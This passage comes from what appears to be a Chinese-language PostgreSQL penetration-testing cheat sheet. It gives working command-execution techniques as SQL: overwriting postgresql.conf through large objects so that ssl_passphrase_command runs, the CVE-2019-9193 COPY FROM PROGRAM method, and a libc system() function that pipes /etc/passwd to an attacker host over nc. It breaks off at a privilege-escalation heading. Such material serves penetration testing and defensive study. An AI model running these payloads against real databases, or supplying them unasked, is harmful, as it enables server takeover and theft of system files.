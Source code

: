 \# 这里我将配置文件的内容存到了 out.txt 中

cat out.txt | base64 -w 0 > base3.txt

-- 将修改后的配置文件加载到largeobject中

select lo_from_bytea(10001,decode('base64的内容,这里略','base64'));

 

-- 通过lo_export覆盖配置文件

select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');

SELECT lo_unlink(10001);

 

-- 重新加载配置文件

select pg_reload_conf();

 

可以看到,重新加载配置文件后,ssl_passphrase_command 中的命令已经执行



#### CVE-2019–9193

如果您可以直接访问数据库，则可以从 [Metasploit](https://github.com/rapid7/metasploit-framework/pull/11598) 使用，否则您需要手动执行以下 SQL 查询。

```postgresql
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```



[![https：//cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png](https://camo.githubusercontent.com/c181a4f5c8ec68e1fe2368e1d5cd47daf6d7dfff6daaaf4eb342a07c1fdd251d/68747470733a2f2f63646e2d696d616765732d312e6d656469756d2e636f6d2f6d61782f313030302f312a7879356772614c73744a304b797355436d504d4c72772e706e67)](https://camo.githubusercontent.com/c181a4f5c8ec68e1fe2368e1d5cd47daf6d7dfff6daaaf4eb342a07c1fdd251d/68747470733a2f2f63646e2d696d616765732d312e6d656469756d2e636f6d2f6d61782f313030302f312a7879356772614c73744a304b797355436d504d4c72772e706e67)



#### 使用 libc.so.6

```postgresql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```



# 0x06 提权
